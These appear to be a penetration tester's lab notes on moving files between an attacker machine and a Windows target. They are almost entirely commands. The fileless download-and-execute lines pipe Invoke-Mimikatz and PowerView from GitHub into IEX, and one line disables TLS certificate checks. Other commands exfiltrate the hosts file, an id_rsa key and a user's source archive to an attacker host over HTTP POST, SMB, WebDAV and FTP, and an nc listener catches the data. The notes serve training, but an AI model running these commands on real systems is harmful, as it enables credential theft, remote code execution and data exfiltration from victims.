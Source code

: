 ## Downloads
#### Encoding - from linux to win
```shell-session
u@htb[/htb]$ cat id_rsa |base64 -w 0 > hash
```

```powershell-session
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("hash"))
```

##### Encoding - from win to lin
```powershell-session
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

<hash>
PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash=

Hash
----
3688374325B992DEF12793500307566D
```

```shell-session
jabrach@htb[/htb]$ echo hash= | base64 -d > hosts
```

#### Powershell
|   |   |
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)||
#### DownloadFile
```powershell-session
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

PS C:\htb> (New-Object 
Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

##### Fileless method
```powershell-session
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

##### Invoke-WebRequest

```powershell-session
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```


##### Errors

##### Internet Explorer first-launc

```powershell-session
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

##### Certifcate not trusted

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

#### SMB

```shell-session
jabrach@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe
```

#### SMB with auth

```shell-session
jabrach@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test
```

#### FTP

```shell-session
jabrach@htb[/htb]$ sudo pip3 install pyftpdlib

jabrach@htb[/htb]$ sudo python3 -m pyftpdlib --port 21
```

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

or create command file:
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

## Uploads
#### Upload via server
```shell-session
jabrach@htb[/htb]$ pip3 install uploadserver
```
```shell-session
jabrach@htb[/htb]$ python3 -m uploadserver

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

##### Upload via base64
```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
then catch with nc:
```shell-session
jabrach@htb[/htb]$ nc -lvnp 8000
```

#### SMB
```shell-session
jabrach@htb[/htb]$ sudo pip3 install wsgidav cheroot

jabrach@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```cmd-session
C:\htb> dir \\192.168.49.128\DavWWWRoot
```

```cmd-session
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

#### FTP

```shell-session
jabrach@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write
```

```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

